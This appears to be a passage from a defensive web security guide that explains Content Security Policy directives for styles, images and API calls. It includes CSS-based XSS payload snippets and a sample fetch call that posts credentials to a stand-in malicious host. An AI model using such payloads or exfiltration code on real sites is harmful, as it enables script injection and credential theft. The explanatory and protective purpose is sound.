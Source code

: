 #### Block All CSS

CSS looks innocent as it is used for styling, but it can also be exploited.  
For example: `<DIV STYLE="width: expression(alert('XSS'));">` or `<DIV STYLE="background-image: url(javascript:alert('XSS'))">` can cause the browser to run unexpected JavaScript.  
Solution? Block what you don't recognize.

| Config                                           | Recommendation                                                                                                                                                                     |
| ------------------------------------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `style-src: 'none'`                              | ✅ Don't allow any styles. Best configuration if your website can work without any external or inline styles.                                                                      |
| `style-src: 'self'`                              | ✅ Only allow styles from your own domain. This is a good default for most websites.                                                                                               |
| `style-src: 'nonce-abc123'`                      | ✅ Use when you have inline styles that need to be trusted. Nonces ensure only authorized inline styles are executed.                                                              |
| `style-src: 'unsafe-inline'`                     | ❌ **Avoid this** unless absolutely necessary. It allows inline styles, which can be a security risk. Use nonces or hashes instead.                                                |
| `style-src: https://trusted.cdn.com`             | ✅ Specify trusted third-party domains explicitly. Only allow styles from domains you trust completely.                                                                            |
| `style-src: 'self' https://fonts.googleapis.com` | ⚠ Example of combining self-hosted styles with a specific trusted third-party domain. Useful for integrating specific fonts or libraries. **Triple-check what domains you allow.** |

#### Block All Images

Images can also be a source of security risks, especially if they are loaded from untrusted domains. Attackers can use image URLs to exfiltrate data or execute malicious code. Or simply link to an image that is multiple GBs in size.

| Config                         | Recommendation                                                                                    |
| ------------------------------ | ------------------------------------------------------------------------------------------------- |
| `img-src: 'none'`              | ✅ Block all images. Best for websites that do not rely on images.                                |
| `img-src: 'self'`              | ✅ Allow images only from your own domain.                                                        |
| `img-src: https://trusted.com` | ✅ Specify trusted third-party domains explicitly. Only allow images from domains you trust.      |
| `img-src: 'self' data:`        | ⚠ Allow self-hosted images and inline base64-encoded images. Use cautiously and only if required. |

#### Block All API Calls

APIs are often used to fetch sensitive data. Restricting API calls ensures that only trusted endpoints are accessed. Attackers try to inject JavaScript into your website and make calls to their endpoints to exfiltrate sensitive information. This header blocks such attempts.

**Example Scenario**:  
Imagine a malicious actor injects a script into your website that sends user credentials to an external server. For instance, the attacker could use the following script:

```javascript
fetch("https://malicious-server.com/steal-data", {
  method: "POST",
  body: JSON.stringify({ username: "user123", password: "password123" }),
});
```

If your CSP includes a directive like `connect-src: 'self'`, the browser will block this request because the domain `https://malicious-server.com` is not allowed. This prevents the attacker from successfully exfiltrating the data. By restricting API calls to trusted domains, you significantly reduce the risk of data theft and unauthorized access.
